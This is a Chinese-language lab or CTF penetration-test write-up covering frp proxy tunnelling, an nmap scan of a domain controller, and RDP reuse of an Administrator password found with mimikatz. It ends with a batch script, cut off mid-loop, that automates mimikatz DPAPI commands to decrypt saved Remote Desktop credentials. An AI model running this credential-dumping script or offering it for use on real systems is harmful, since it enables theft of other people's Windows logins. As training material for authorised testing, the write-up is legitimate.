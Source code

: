 `frp` 启动！！！

用`frp`搭建二层代理

开启成功

![image-20231018114723453](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018114723453.png)

给`Proxifier`配置代理链

然后能够成功访问`http://192.168.14.254:8443/`

![image-20231018115050675](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018115050675.png)

弱口令试了，试不出来，看看山石平台后台，发现网闸没有`flag` ，绷不住了，防火墙有`flag`,，网闸又没有是吧

其他域机器没有开什么有用的端口，`192.168.14.101`有个88端口，`nmap`扫一下服务

```bash
namp.exe -sV -p 88 192.168.14.101
```

好吧，是`DC`做`Kerberos`协议认证用的

![image-20231018131314927](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018131314927.png)

既然没思路，咱们再回到 `192.168.12.55`寻找信息

这里有个小坑，我们用猕猴桃找到了`Administrator`的密码，要用`Administrator`进行`rdp`，再收集信息

可以看到`192.168.12.55`的`rdp`还保持着登录`192.168.14.51`的凭证

![image-20231018131554247](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018131554247.png)

通过这篇文章 https://blog.csdn.net/qq_36618918/article/details/130677478

我们可以写一个自动化脚本来获取远程桌面登录凭证,需要在脚本目录下放上猕猴桃，将猕猴桃命名为`mimi`

```bash
@echo off
setlocal enabledelayedexpansion
set Gnum=0
set Temp_Guid=
set Guid=
set masterkey=
set file_id=
set file_num=
for /f "delims= " %%i in ('dir /b /a %LOCALAPPDATA%\Microsoft\Credentials\') do (
::set Gnum=0
for /f "tokens=2 delims=: " %%j in ('mimi "dpapi::cred /in:%LOCALAPPDATA%\Microsoft\Credentials\%%i" "exit"^|find "guidMasterKey"') do (
set Temp_Guid=%%j
mimi "dpapi::cred /in:%LOCALAPPDATA%\Microsoft\Credentials\%%i" "privilege::debug" "sekurlsa::dpapi" "exit"|findstr "!Temp_Guid! MasterKey" 2>nul >0616.txt
for /f "tokens=2 delims=:" %%a in (0616.txt) do (
set Guid=%%a
set Guid=!Guid:	=!
set Guid=!Guid: =!
echo !Guid!>nul

if !Gnum!==2 (
set file_id=%%i
set masterkey=!Guid!

echo !file_id! >nul
echo !masterkey! >nul
echo --------------------------------------------------------------
mimi "dpapi::cred /in:%LOCALAPPDATA%\Microsoft\Credentials\!file_id! /masterkey:!masterkey!" "exit"|findstr "TargetName UserName CredentialBlob" 2>nul
set Gnum=0
```